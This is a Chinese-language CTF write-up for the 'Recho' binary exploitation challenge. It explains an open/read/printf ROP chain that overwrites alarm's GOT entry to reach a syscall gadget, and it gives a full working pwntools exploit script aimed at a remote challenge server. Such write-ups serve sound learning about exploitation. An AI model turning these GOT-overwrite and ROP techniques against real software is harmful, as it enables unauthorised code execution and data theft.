





### Recho+orw攻防世界

这里我们还是看到一个比较好玩的一个题目那么我们还是先开始老三张

这里我们查看一下保护



这里看到他的保护其实就只有一个nx那这个时候就要看看ida了



这里我们看到这个循环是一个死循环因此我们要想办法进行一个利用，刚开始我的想法是使用ret-to-libc的方法来进行要给攻击但是我们突然会找到一个问题就是他并不能退出循环，因此我们没有特别好的一个攻击手段，因此我们在想是否可以使用一个orw的方式来攻击文件因此我们调用一个gaget来攻击

这里我们要使用到的open，read并且使用prinrtf来一个打印因此我们要用到这几个函数但是在调用open是要用到syscall这个函数体因此我们是否看看是否有可以用到的这个函数的地方

并且我们发现这里给了一个flag的关键字样



同时我们也要找到一个可以写入的地方这里我们可查看gdb的调试工具来查看



但是在ida中我们可以也可以发现bss段也可以进行一个rw的一个权限因此我们也是可以使用到bss段来进行要给写入

在这里我们就看到一个我们明显的要给区别了没有syscall函数因此我们要使用到alarm这个函数这个主要的原因就是我们可以去修改他的got表让他指向syscall并且我们可以查看libc文件的汇编就知道在这个函数+5的地方就有着一个syscall因此我们可以修改他的got表因此我们用这个方式来尝试一下



由于用到了这个方法因此我们就要使用到一个修改数据的gaget来进行一个修改因此我们会用到

这个gaget他安要给c后会得到要给汇编的代码段这个是我们需要的代码段

因此我们的exp脚本编写

```python
from pwn import *

# io=process("/home/fofa/pwn")
elf = ELF("/home/fofa/pwn")
p = remote('61.147.171.105',56094)
context(log_level = 'debug')

add_rdi = p64(0x40070d)
bss_addr = p64(0x601080)
flag_addr = p64(0x601058)
pop_rax_ret = p64(0x4006fc)
pop_rdi_ret = p64(0x4008A3)
pop_rsi_r15_ret = p64(0x4008a1)
pop_rdx_ret = p64(0x4006fe)

alarm_got = p64(elf.got['alarm'])
syscall = p64(elf.plt['alarm'])
printf = p64(elf.plt['printf'])
read = p64(elf.plt['read'])

p.recvuntil("Welcome to Recho server!\n")
p.sendline(str(0x200))

# alarm -> syscall
pl = b'a'*0x38
pl += pop_rdi_ret + alarm_got
pl += pop_rax_ret + p64(5)
pl += add_rdi

# fd = open(flag, READONLY);
pl += pop_rsi_r15_ret + p64(0) + p64(0)
pl += pop_rdi_ret + flag_addr
pl += pop_rax_ret + p64(2) + syscall

# read(fd, bss_addr, 0x100)
pl += pop_rdi_ret + p64(3)
pl += pop_rsi_r15_ret + bss_addr + p64(0)
pl += pop_rdx_ret + p64(0x100) + read

# printf(bss_addr)
pl += pop_rdi_ret + bss_addr + printf

pl = pl.ljust(0x200, b"\x00")
p.sendline(pl)

p.shutdown("write")

p.interactive()

```

